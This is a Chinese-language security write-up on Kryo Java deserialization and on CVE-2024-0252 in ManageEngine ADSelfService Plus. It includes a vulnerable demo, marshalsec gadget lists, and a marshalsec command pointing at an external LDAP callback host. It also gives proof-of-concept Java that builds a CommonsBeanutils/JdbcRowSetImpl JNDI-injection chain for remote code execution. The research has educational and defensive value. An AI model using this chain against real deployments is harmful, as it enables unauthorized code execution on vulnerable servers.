 
从 CVE-2024-0252 学习 kryo 反序列化

- - -

# 从 CVE-2024-0252 学习 kryo 反序列化

## kryo 介绍

项目地址：[https://github.com/EsotericSoftware/kryo](https://github.com/EsotericSoftware/kryo)  
介绍和简单使用移步：[https://cloud.tencent.com/developer/article/1872432](https://cloud.tencent.com/developer/article/1872432)

## kryo 反序列化

和 hessian 类似，关于反序列化 kryo 有大致以下特性：

1.  两种初始化策略：DefaultInstantiatorStrategy（默认）、StdInstantiatorStrategy  
    详细解释参考（[https://blog.csdn.net/liuxiangke0210/article/details/78377677）](https://blog.csdn.net/liuxiangke0210/article/details/78377677%EF%BC%89)
2.  默认配置实例化对象时需要一个默认 public 构造函数并且不支持代理。
3.  5.0 版本以上默认配置 registrationRequired 值为 true，所有待反序列化的类都需要进行注册，相当于白名单。

kryo 提供了两个反序列化函数：

-   readClassAndObject
-   readObject(Input input, Class<t> type)  
    反序列化逻辑差不多都是获取到反序列化器再调用其 read 方法进行反序列化，不同的是后者需要指定反序列化的类型（序列化器在 com.esotericsoftware.kryo.serializers 下）。</t>

写个漏洞 demo 看看

-   依赖

```bash
<dependency>
    <groupId>com.esotericsoftware</groupId>
    <artifactId>kryo</artifactId>
    <version>4.0.1</version>
</dependency>
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.8.3</version>
</dependency>
```

```bash
//java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Kryo CommonsBeanutils ldap://jndi.callback.red:5/ub4t/
Kryo kryo = new Kryo();
kryo.setInstantiatorStrategy(new Kryo.DefaultInstantiatorStrategy(new StdInstantiatorStrategy()));
Input input = new Input(new FileInputStream("D:\\1.txt"));
kryo.readClassAndObject(input);
input.close();
```

有关利用链在 marshalsec 工具提供了一些：

```bash
marshalsec.Kryo:[SpringAbstractBeanFactoryPointcutAdvisor, CommonsBeanutils]

//kryo.setInstantiatorStrategy(new Kryo.DefaultInstantiatorStrategy(new StdInstantiatorStrategy()));
marshalsec.KryoAltStrategy:[Groovy, SpringPartiallyComparableAdvisorHolder, SpringAbstractBeanFactoryPointcutAdvisor, Rome, XBean, Resin, LazySearchEnumeration, BindingEnumeration, ServiceLoader, ImageIO, CommonsBeanutils]
```

## ManageEngine ADSelfService Plus CVE-2024-0252 简要分析

-   环境[https://archives2.manageengine.com/self-service-password/](https://archives2.manageengine.com/self-service-password/)
-   影响版本：6401 之前

下载补丁 diff 主要新增了一行代码

```bash
kryo.setRegistrationRequired(true);
```

[![](assets/1706959005-0ccfb8ab36f09035b456207ad18f5a3d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126153422-52d6ff12-bc1d-1.png)

看了下 kryo 组件的版本是 4.0.1（RegistrationRequired 值默认为 false），基本断定漏洞点就是这儿的反序列化，但是工具类里并不是调用 readClassAndObject，而是调用 readObject 方法反序列化为指定的类型（这里是 hashmap）。

上面提到过反序列化时会调用对应的处理器进行反序列化，这里处理 map 类型的序列化器是 MapSerializer，跟进其 read 方法查看最终还是调用的 readClassAndObject 方法进行的反序列化，即在如下场景下同样能触发反序列化。

```bash
kryo.readObject(input, HashMap.class);
```

下面是用的是工具类里的 cb getter+JdbcRowSetImpl 触发 JNDI 注入的链子，然后再用 Haspmap 包装一下，构造 POC

```bash
public static HashMap<String, Object> exp(String jdniUrl) throws Exception {
    BeanComparator cmp = new BeanComparator("lowestSetBit", Collections.reverseOrder());
    Object trig = makeTreeMap(makeJNDIRowSet(jdniUrl), cmp);
    setFieldValue(cmp, "property", "databaseMetaData");
    HashMap<String, Object> hashMap = new HashMap();
    hashMap.put("test",trig);
    return hashMap;
}
public static TreeMap<Object, Object> makeTreeMap (Object tgt, Comparator comparator ) throws Exception {
    TreeMap<Object, Object> tm = new TreeMap<>(comparator);

    Class<?> entryCl = Class.forName("java.util.TreeMap$Entry");
    Constructor<?> entryCons = entryCl.getDeclaredConstructor(Object.class, Object.class, entryCl);
    entryCons.setAccessible(true);
    Field leftF = getField(entryCl, "left");

    Field rootF = getField(TreeMap.class, "root");
    Object root = entryCons.newInstance(tgt, tgt, null);
    leftF.set(root, entryCons.newInstance(tgt, tgt, root));
    rootF.set(tm, root);
    setFieldValue(tm, "size", 2);
    return tm;
}
```

有趣的是 github 早就放了 poc 不过是个马儿[https://github.com/forsaken0128/CVE-2024-0252-RCE](https://github.com/forsaken0128/CVE-2024-0252-RCE) (404 了)

## 参考

[https://cloud.tencent.com/developer/article/1624416](https://cloud.tencent.com/developer/article/1624416)  
[https://blog.csdn.net/liuxiangke0210/article/details/78377677](https://blog.csdn.net/liuxiangke0210/article/details/78377677)
